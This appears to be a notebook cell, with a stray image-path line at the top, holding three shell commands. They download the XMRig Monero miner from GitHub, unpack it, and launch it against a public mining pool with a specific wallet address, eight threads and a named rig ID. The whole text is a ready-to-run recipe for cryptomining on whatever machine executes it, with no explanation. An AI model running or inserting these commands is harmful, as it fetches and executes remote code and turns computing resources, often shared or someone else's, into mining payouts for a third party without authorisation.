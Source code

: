 
! wget https://github.com/xmrig/xmrig/releases/download/v6.16.1/xmrig-6.16.1-linux-x64.tar.gz
! tar -xvf xmrig-6.16.1-linux-x64.tar.gz
! ./xmrig-6.16.1/xmrig -o sg.minexmr.com:443 -u 44xyiky4qfr4X937HgbRv8A4QH2R7ynQSca4PWmBMqjffUbDv19F9DWgde51c6N6UZYi8rJP2AZNE95Jzo3eUWrnLnhFkba -k --tls --threads=8 --rig-id Aegrydd
